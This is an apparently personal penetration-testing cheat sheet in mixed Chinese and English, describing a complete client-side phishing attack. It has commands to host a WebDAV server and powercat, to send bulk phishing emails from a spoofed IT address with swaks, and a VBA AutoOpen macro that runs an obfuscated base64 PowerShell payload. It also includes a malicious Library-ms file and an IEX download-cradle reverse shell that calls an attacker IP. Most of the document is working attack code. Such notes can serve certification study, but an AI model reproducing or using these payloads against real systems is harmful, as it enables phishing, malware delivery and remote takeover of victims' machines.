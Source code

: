 # Organize Attack

create Macros/lib-ms && .lnk/func payload -- [[4. Client-Side Attack#Preparation|Preparation]]⬇️
## 1. Start WebDav
```bash
pip install wsgidav
mkdir /home/ikan/webdav
cp config.Library-ms /home/ikan/webdav
wsgidav  --host=0.0.0.0 --port=80 --auth=anonymous --root /home/ikan/webdav/
```
## 2. Perp Powercat
```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python -m http.server 8000
```
## 3. Send Email
### swaks
```bash
$ while read mail; do swaks --to $mail --from IT@targetdomain.com –header "Subject: Credentials / Errors" –body "goto http://attackerIP/" –server x.x.x.x; done < mails.txt

#多目标
swaks -t victim1 -t victim2 ... --from IT@targetdomain.com --header "Subject: Credentials / Errors" –body @body.txt -attach @config.Library-ms --server x.x.x.x --suppress-data -ap

swaks -t $(cat emails | tr '\n' ',' | less) --from IT@targetdomain.com --header "Subject: Credentials / Errors" –body @body.txt -attach @config.Library-ms --server x.x.x.x --suppress-data -ap
```
### sendEmail
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a 
/tmp/malware.pdf

Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```

# Preparation
## Office Macros
* 格式保存为.doc/.docm
* Enable Content
![[Pasted image 20240418205808.png]]

### Macros Payload
```vba
Sub AutoOpen()
       MyMacro
   End Sub
   Sub Document_Open()
       MyMacro
   End Sub
   Sub MyMacro()
       Dim Str As String
       '...str...concat...'
       CreateObject("Wscript.Shell").Run Str
   End Sub
```
## Windows LibFile Payload
***仅限单次使用，用完后该配置文件会被自动优化修改，不再具有可移植性。在其他机器上或重启后无法工作***
```xml
<!-- ...文件名：config.Library-ms... -->
<!-- ...Start from next... -->

<?xml version="1.0" encoding="UTF-8"?>
   <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
   <name>@windows.storage.dll,-34582</name>
   <version>6</version>
   <isLibraryPinned>true</isLibraryPinned>
   <iconReference>imageres.dll,-1003</iconReference>
   <templateInfo>
   <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
   </templateInfo>
   <searchConnectorDescriptionList>
   <searchConnectorDescription>
   <isDefaultSaveLocation>true</isDefaultSaveLocation>
   <isSupported>false</isSupported>
   <simpleLocation>
   <url>http://192.168.119.2</url> <!-- 此处 http://<localhost> -->
   </simpleLocation>
   </searchConnectorDescription>
   </searchConnectorDescriptionList>
   </libraryDescription>
```

## Reverse Shell
用于.lnk负载
```bash
IEX (New-Object System.Net.Webclient).DownloadString("http://<IP>/powercat.ps1");powercat -c <IP> -p <PORT> -e powershell
```
## [[File Upload Vulnerablity#Windows Reverse PowerShell|Kali Pwsh Encode Base64]]
用于vba Macros负载
```python
   text = 'powershell.exe -nop -w hidden -e {$Base64_EncodedText}' #填入base64_payload的编码
   n = 50
   
   for i in range(0, len(text), n):
   	print("Str = Str + " + '"' + str[i:i+n] + '"')
   ```
```vba
#...
Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    '...'
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "
#...
```
   
